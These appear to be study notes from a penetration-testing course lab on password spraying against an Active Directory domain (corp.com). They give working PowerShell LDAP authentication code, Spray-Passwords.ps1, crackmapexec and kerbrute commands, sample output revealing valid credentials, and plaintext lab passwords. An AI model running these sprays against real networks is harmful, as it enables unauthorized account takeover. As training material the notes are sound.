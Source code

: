 	- When performing a brute force or wordlist authentication attack, we must be aware of account lockouts.

Set up:
	- RDP user jeff on CLIENT75 with the password HenchmanPutridBonbon11.
	- Obtain the account policy with **net accounts**
		-`net accounts`

1st Type of password attack (LDAP & ADSI):
- Uses LDAP and ADSI to perform a low and slow password attack against AD users.
	- we can also make queries in the context of a different user by setting the DirectoryEntry instance
		- provide three arguments, including the LDAP path to the domain controller, the username, and the password
	- ```$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")```
	- output -> ```distinguishedName : {DC=corp,DC=com}
		Path: LDAP://DC1.corp.com/DC=corp,DC=com```
	- To avoid incorrect password Exceptions
		-change the password in the constructor to **WrongPassword**
- We could use this technique to create a PowerShell script that enumerates all users and performs authentications according to the Lockout threshold and Lockout observation window.
	-This password spraying tactic is already implemented in the PowerShell script **`C:\Tools\Spray-Passwords.ps1`**
	-`cd C:\Tools`
	- `powershell -ep bypass`
	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin`
		- -Pass =  set a single password to test
		- -File =  submit a wordlist file 
		- -Admin = test admin accounts
	- Output --> ```'pete' with password: 'Nexus123!'
		 'jen' with password: 'Nexus123!'```

2nd Type of Password spraying attack ([[SMB]]):
	- Drawback:
		- For example, for every authentication attempt, a full SMB connection has to be set up and then terminated.
	- **[[crackmapexec]]**
		- `cat users.txt`
		- `crackmapexec smb 192.168.200.75 -u usernames.txt -p 'Nexus123!' -d corp.com --continue-on-success`
			- smb = protocol
			- -u = username/file
			- -p = password
			- -d = domain
			- --continue-on-success = avoid stopping at the first valid credential
	- Bonus:
		- output of crackmapexec not only displays if credentials are valid, but also if the user with the identified credentials has admin priv on tgt system
	- Dave is a local admin on CLIENT75. Let's use crackmapexec with the password Flowers1 targeting this machine
		-`crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com`

3rd Type of Password spraying attack (TGT)
- *kinit*
	- Can obtain and cache a Kerberos TGT
		- Need to provide a username and password
	- Advantage:
		-  only uses two UDP frames
			- To determine whether the password is valid, it sends only an AS-REQ and examines the response
- *kerbrute*
	- automate obtaining and caching a Kerberos TGT
	- Location: **`C:\Tools`**
	`.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"`
		- passwordspray = command 
		- -d = domain
		- user.file pass
		-[`If you receive a network error, make sure that the encoding of usernames.txt is ANSI. You can use Notepad's Save As functionality to change the encoding.`]